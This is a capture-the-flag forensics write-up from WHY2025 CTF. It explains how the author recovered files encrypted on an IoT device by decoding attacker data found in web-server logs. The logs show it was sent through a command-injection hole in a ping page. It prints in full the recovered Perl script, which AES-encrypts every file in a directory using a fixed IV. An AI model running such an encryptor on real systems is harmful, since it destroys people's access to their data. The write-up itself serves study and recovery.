 # iot breach — Writeup

**Category:** *forensics*

## Description

Please help me! A hacker has attacked my network and now I can't see my files anymore :( Can you please help me to recover them?

## Solution

The disk image (`.img`) was provided. The image contained all files including **root** directory. There is a directory with encrypted kitten pictures:

![Encrypted files](../resources/WHY2025%20CTF/iotbreach1.png)

I searched through all the files and found several interesting things: in the file `./var/log/lighttpd/access.log` I found many logs with strange data. It looked like base64 data that was sent through a web-access ping application with command injection vulnerability:

![Web server logs with base64 decoded data](../resources/WHY2025%20CTF/iotbreach2.png)

I decoded all the transferred data and recovered the following Perl script:

```perl
use strict;
use warnings;
use Crypt::Mode::CBC;
use File::Find;

# Check if password is provided
die "Usage: $0 <password>
" unless @ARGV == 1;
my $password = $ARGV[0];

# Define encryption parameters
my $cipher = Crypt::Mode::CBC->new("AES");

# Get all files in the current directory
find(sub {
    return if -d $_;  # Skip directories
    return if $_ =~ /.pl$/;
    encrypt_file($_);
}, ".");

sub encrypt_file {
    my ($file) = @_;

    # Read file contents
    open my $fh, '<', $file or die "Could not open '$file' for reading: $!";
    binmode $fh;
    my $data = do { local $/; <$fh> };
    close $fh;

    # Encrypt the data
    my $encrypted = $cipher->encrypt($data, $password, "R4ND0MivR4ND0Miv");

    # Write encrypted data back to file
    open my $fh_out, '>', "$file.enc" or die "Could not open '$file.enc' for writing: $!";
    binmode $fh_out;
    print $fh_out $encrypted;
    close $fh_out;

    print "Encrypted $file -> $file.enc
";
}

print "Encryption complete.
";

```

I found that pictures were encrypted using the `AES` algorithm with the Initialization Vector `R4ND0MivR4ND0Miv`. Also there was an encryption key in the web server logs:

![The encryption key](../resources/WHY2025%20CTF/iotbreach3_0.png)
![URL decoded encryption key](../resources/WHY2025%20CTF/iotbreach3_1.png)

Using the CyberChief, I recovered encrypted pictures and one of the pictures contained the flag:

![The flag](../resources/WHY2025%20CTF/iotbreach4.jpg)